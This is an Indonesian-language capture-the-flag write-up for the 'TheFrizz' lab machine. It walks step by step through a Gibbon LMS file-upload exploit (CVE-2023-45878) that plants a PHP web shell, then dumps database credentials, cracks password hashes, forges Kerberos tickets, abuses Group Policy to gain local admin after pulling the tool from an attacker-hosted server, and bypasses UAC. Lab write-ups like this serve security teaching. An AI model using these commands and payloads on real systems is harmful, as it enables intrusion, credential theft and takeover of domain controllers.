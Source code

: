 # TheFrizz Machine

![machine](./img/machine.jpg)

#### Nmap output
```bash
# Nmap 7.94SVN scan initiated Mon Apr 14 16:27:47 2025 as: nmap -sC -sV -T4 -oA nmap/thefrizz 10.129.38.25
Nmap scan report for 10.129.38.25
Host is up (0.082s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-15 04:27:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-15T04:28:04
|_  start_date: N/A
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 14 16:28:45 2025 -- 1 IP address (1 host up) scanned in 58.13 seconds
```


>**Penting!!!!**
Beberapa waktu saya stuck tidak bisa ke revshell, akhirnya setelah berdiskusi dengan teman dan melihat dengan seksama *-vvv* di ssh, saya dapat melewatinya.
CMIIW, nama domain frizzdc harus di urutan depan biar di resolve terlebih dahulu. Kerberos dan GSSAPI sensitif soal urutan dan nama domain. Kalau domain-nya salah atau urutannya ngaco, autentikasi bisa gagal total. Disinilah saya stuck beberapa waktu.

#### Tambahkan:
**/etc/hosts:**
```bash
10.129.38.25 frizzdc.frizz.htb frizz.htb
```

**/etc/krb5.conf**
```bash
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_kdc = false

[realms]
FRIZZ.HTB = {
    kdc = 10.129.38.25
    admin_server = 10.129.38.25
}
```

**/etc/resolv.conf**
```bash
nameserver 10.129.38.25
```

Jangan lupa samakan waktu antara server dan kamu. 

```bash
sudo ntpdate -s 10.129.38.25
```

![gibbon](./img/gibbon.jpg)

Kita bisa liat versi gibbon lalu search di google atau di exploit-db tentang gibbon dan saya menemukan **CVE-2023-45878**

#### Upload shell:
```bash
curl -X POST "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php" \
-H "Host: frizzdc.frizz.htb" \
--data-urlencode "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K" \
--data-urlencode "path=shell.php" \
--data-urlencode "gibbonPersonID=0000000001"
```

Kalian dapat jalankan menggunakan curl ataupun dengan web
```bash
curl "http://frizzdc.frizz.htb/Gibbon-LMS/shell.php?cmd=whoami"
```

![shell](./img/shell.jpg)

Kalian bisa revshell dan akan mendapatkan file config.php

```bash
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

```bash
C:\xampp\mysql\bin>.\mysql.exe -u MrGibbonsDB -p "MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E                                      
```
```bash
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
*************************** 1. row ***************************                                                                                                                                                   
           gibbonPersonID: 0000000001                                                                                                                                                                                                      
                    title: Ms.                                                                                                                                                                                                             
                  surname: Frizzle                                                                                                                                                                                                         
                firstName: Fiona                                                                                                                                                                                                           
            preferredName: Fiona                                                                                                                                                                                                           
             officialName: Fiona Frizzle                                                                                                                                                                                                   
         nameInCharacters:                                                                                                                                                                                                                 
                   gender: Unspecified                                                                                                                                                                                                     
                 username: f.frizzle                                                                                                                                                                                                                                         
           passwordStrong: 067f746faca44f170c6cd9d7c4bdac6b******************                                                                                                                                                                              
       passwordStrongSalt: /aACFhikmN***********                                                                                                                                                                                                                          
       passwordForceReset: N
                   status: Full
                 canLogin: Y
      gibbonRoleIDPrimary: 001
          gibbonRoleIDAll: 001
                      dob: NULL
                    email: f.frizzle@frizz.htb
           emailAlternate: NULL
                image_240: NULL
            lastIPAddress: ::1
            lastTimestamp: 2024-10-29 09:28:59
        lastFailIPAddress: 10.10.16.26
        lastFailTimestamp: 2025-03-17 08:29:30
                failCount: 11
                 address1: 
         address1District: 
          address1Country: 
                 address2: 
```

Kita bisa crack menggunakan **john**

```bash
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


**Kredensial:**
```bash
f.frizzle:Jenni_****_Magic**
```

**Dapetin tiket:**
``bash
impacket-getTGT frizz.htb/'f.frizzle':'Jenni_****_Magic**' -dc-ip frizzdc.frizz.htb  

export KRB5CCNAME=f.frizzle.ccache
```

**Masuk ke ssh menggunakan ticket:**
```bash
ssh f.frizzle@frizz.htb -k
```

![gambar user.txt](./img/user.jpg)


Kita bisa gunakan bloodhound untuk melihat domain user lain, karena f.frizzle tidak memiliki privilege.

![bloodhound](./img/bloodhound.png)

Setelah mencari saya mendapatkan $RE2XMEG.7z, kita bisa extract dan mendapatkan sebuah password untuk **M.SchoolBus**.


**Dapetin tiket:**
```bash
impacket-getTGT frizz.htb/m.schoolbus:'password' -dc-ip frizzdc.frizz.htb


export KRB5CCNAME=M.SchoolBus.ccache
```

Masuk ke ssh nya
```bash
ssh M.SchoolBus@frizz.htb -K
```

Vulnerability yang ada di M.SchoolBus adalah SharpGpoAbuse


Kalian bisa download di

```bash
https://github.com/byronkg/SharpGPOAbuse
```

*Menambahkan gpo name:**

```bash
New-GPO -Name "hades" | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```

Nyalakan http.server python kalian, lalu download dari machine korban

```bash
Invoke-WebRequest -Uri "http://10.10.*.*/SharpGPOAbuse.exe" -OutFile "SharpGPOAbuse.exe"
```


**Lalu jalankan:**
```bash
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName hades                    

gpupdate /force
 ```

Namun tetap tidak dapat membaca root.txt, butuh RunasCs untuk melakukan nya


**Link RunasCs:**
```bash
https://github.com/antonioCoco/RunasCs
```


```bash
.\RunasCs.exe "M.SchoolBus" "password" "cmd /c type C:\Users\Administrator\Desktop\root.txt" --bypass-uac --logon-type '8' --force-profile
```

Enjoy The Flag......

> **akhirnya saya tahu kenapa machine ini walaupun medium, tapi mendapatkan rating 2.2, lmao.**

